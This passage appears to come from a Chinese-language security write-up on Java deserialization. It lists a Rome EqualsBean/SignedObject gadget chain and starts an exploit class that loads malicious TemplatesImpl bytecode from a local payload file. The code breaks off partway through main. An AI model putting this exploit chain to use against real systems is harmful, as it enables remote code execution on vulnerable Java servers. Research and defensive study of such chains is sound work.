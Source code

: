 #### Rome(Equals)

利用链

```plain
Hashtable#readObject() -> EqualsBean#equals() -> EqualsBean.beanEquals() -> SignedObject#getObject()
```

[![](assets/1709112106-54a2529c151f7925d67158524f94fe34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195613-34c7ad7e-d567-1.png)

EXP

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;

public class Sign_RomeEqualsBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
```